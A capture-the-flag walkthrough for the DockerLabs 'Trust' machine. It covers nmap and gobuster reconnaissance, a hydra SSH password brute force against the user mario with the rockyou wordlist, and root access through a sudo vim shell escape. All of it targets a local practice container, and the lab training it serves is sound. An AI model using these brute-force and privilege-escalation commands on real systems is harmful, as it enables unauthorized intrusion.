 # Trust

{% embed url="https://dockerlabs.es/#/" %}

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip trust.zip`
* `sudo bash auto_deploy.sh trust.tar`

<div align="left">

<figure><img src="../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

</div>

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 trust" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/trust
</strong>cd DockerLabs/trust
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 trust
PING trust (172.17.0.2) 56(84) bytes of data.
64 bytes from trust (172.17.0.2): icmp_seq=1 ttl=64 time=0.052 ms
64 bytes from trust (172.17.0.2): icmp_seq=2 ttl=64 time=0.077 ms
64 bytes from trust (172.17.0.2): icmp_seq=3 ttl=64 time=0.048 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- trust
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

There're two open port (22, 80), analyze them searching more info about services version and potential vulns:

```bash
nmap -A -sVC -p 22,80 trust -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

As always we begin our exploration from port 80, where we know there is a web server, so we execute the whatweb command to extract more information and then view the content using the browser

```bash
whatweb http://trust
```

<figure><img src="../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

Let's display the default Apache page, try analysing the source page with CTRL+U

<figure><img src="../.gitbook/assets/image (254).png" alt=""><figcaption></figcaption></figure>

But we don't discover nothing of interisting.

### 2.2 Brute force hidden web directory

Now, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (256).png" alt=""><figcaption></figcaption></figure>

We only find a useless 403 status code, so we try inserting web extensions (html, xml and php) with the -x flag:

```
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,xml,php
```

<figure><img src="../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

and finally we obtain two status code 200, the index.html is the homepage (that we just know), therefore we go to the secret.php

<figure><img src="../.gitbook/assets/image (258).png" alt=""><figcaption></figcaption></figure>

We find as info a potential username, remembering that port 22 (SSH) is open, not knowing the password we could try a brute force attack with hydra

### 2.3 Brute force ssh credentials

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt trust ssh
```

<figure><img src="../.gitbook/assets/image (259).png" alt=""><figcaption></figcaption></figure>

Fantastic, we discovered the password, we use it to log in via SSH with the following command: `ssh mario@trust`

<figure><img src="../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, so let's check the current permissions using `sudo -l`

<figure><img src="../.gitbook/assets/image (261).png" alt=""><figcaption></figcaption></figure>

We see that mario user has root permissions for /usr/bin/vim, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/vim/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

<figure><img src="../.gitbook/assets/image (262).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/vim/">https://gtfobins.github.io/gtfobins/vim/</a></p></figcaption></figure>

using vim sudo command, we obtain a root permission `sudo vim -c ':!/bin/sh'`

<div align="left">

<figure><img src="../.gitbook/assets/image (263).png" alt=""><figcaption></figcaption></figure>

</div>
